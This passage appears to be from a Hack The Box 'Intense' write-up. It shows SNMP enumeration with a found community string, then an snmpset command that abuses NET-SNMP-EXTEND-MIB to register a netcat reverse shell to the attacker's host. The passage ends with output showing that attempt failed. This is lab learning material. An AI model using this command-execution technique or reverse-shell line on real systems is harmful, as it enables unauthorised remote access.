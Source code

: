 Not much information gained from SNMP walk

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ snmpwalk -v 2c -c SuP3RPrivCom90 10.10.10.195 nsExtendOutput1                             130 ⨯ 2 ⚙
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test2" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."test2" = STRING: Hello, world!
Hi there
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."test1" = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."test2" = INTEGER: 2
NET-SNMP-EXTEND-MIB::nsExtendResult."test1" = INTEGER: 0
NET-SNMP-EXTEND-MIB::nsExtendResult."test2" = INTEGER: 8960
```

[https://medium.com/rangeforce/snmp-arbitrary-command-execution-19a6088c888e](https://medium.com/rangeforce/snmp-arbitrary-command-execution-19a6088c888e)

> snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c   host-with-snmpd.lan  'nsExtendStatus."command"' = createAndGo  'nsExtendCommand."command"' = /bin/echo  'nsExtendArgs."command"' = 'hello world'

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.10.10.195 'nsExtendStatus."command"' = createAndGo 'nsExtendCommand."command"' = '/bin/nc 10.10.15.100 55541 -e /bin/bash' 'nsExtendArgs."command"'    = 'hello world' 
NET-SNMP-EXTEND-MIB::nsExtendStatus."command" = INTEGER: createAndGo(4)
NET-SNMP-EXTEND-MIB::nsExtendCommand."command" = STRING: /bin/nc 10.10.15.100 55541 -e /bin/bash
NET-SNMP-EXTEND-MIB::nsExtendArgs."command" = STRING: hello world
```

created my command to send nc reverse shell

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ snmpwalk -v 2c -c SuP3RPrivCom90 10.10.10.195 nsExtendOutput1                                   2 ⚙
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test2" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."command" = STRING: /bin/nc: invalid option -- 'e'
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."test2" = STRING: Hello, world!
Hi there
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."command" = STRING: /bin/nc: invalid option -- 'e'
usage: nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
          [-m minttl] [-O length] [-P proxy_username] [-p source_port]
          [-q seconds] [-s source] [-T keyword] [-V rtable] [-W recvlimit] [-w timeout]
          [-X proxy_protocol] [-x proxy_address[:port]]           [destination] [port]
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."test1" = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."test2" = INTEGER: 2
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."command" = INTEGER: 5
NET-SNMP-EXTEND-MIB::nsExtendResult."test1" = INTEGER: 0
NET-SNMP-EXTEND-MIB::nsExtendResult."test2" = INTEGER: 8960
NET-SNMP-EXTEND-MIB::nsExtendResult."command" = INTEGER: 1
```
